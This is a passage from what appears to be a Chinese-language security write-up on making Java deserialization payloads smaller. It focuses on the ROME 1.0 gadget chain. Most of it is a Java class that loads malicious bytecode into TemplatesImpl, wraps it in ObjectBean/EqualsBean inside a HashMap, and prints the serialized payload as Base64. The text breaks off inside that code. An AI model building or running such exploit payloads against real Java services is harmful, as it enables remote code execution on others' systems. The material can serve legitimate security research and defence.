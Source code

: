 ##  前言

对于payload的缩小技术，重点在三个位置：

- 序列化数据本身的缩小（缩小链子）
- 针对`TemplatesImpl`中`_bytecodes`字节码的缩小
- 对于执行的代码如何缩小（`STATIC`代码块）

##  环境搭建

```xml
        <!-- https://mvnrepository.com/artifact/com.alibaba/fastjson -->
        <dependency>
            <groupId>rome</groupId>
            <artifactId>rome</artifactId>
            <version>1.0</version>
        </dependency>
```

##  改进1

payload1:

```java
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ObjectBean;
import javassist.ClassPool;
import javassist.CtClass;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;

public class Rome {
    public static void setFieldValue(Object obj,String name,Object value) throws Exception{
        Field field =obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj,value);
    }
    public static void main(String[] args) throws Exception{
        new CodeResolve().process("ROME1.0\\src\\main\\java\\org\\example\\Resolver\\calc.class");
        byte[] code= Files.readAllBytes(Paths.get("ROME1.0\\src\\main\\java\\org\\example\\Resolver\\calc.class"));
        TemplatesImpl templates=new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{code});
        setFieldValue(templates, "_name", "z");
        setFieldValue(templates, "_tfactory", null);
        ObjectBean objectBean=new ObjectBean(ObjectBean.class,new ObjectBean(String.class,"z3eyond"));
        HashMap hashMap=new HashMap();
        //这个put也会触发，所以先传一个正常的ObjectBean
        hashMap.put(objectBean,"z3eyond");
        //恶意类
        ObjectBean objectBean1=new ObjectBean(Templates.class,templates);
        setFieldValue(objectBean,"_equalsBean",new EqualsBean(ObjectBean.class,objectBean1));
        ByteArrayOutputStream baos=new ByteArrayOutputStream();
        ObjectOutputStream oos=new ObjectOutputStream(baos);
        oos.writeObject(hashMap);
        System.out.println(new String(Base64.getEncoder().encode(baos.toByteArray())));
```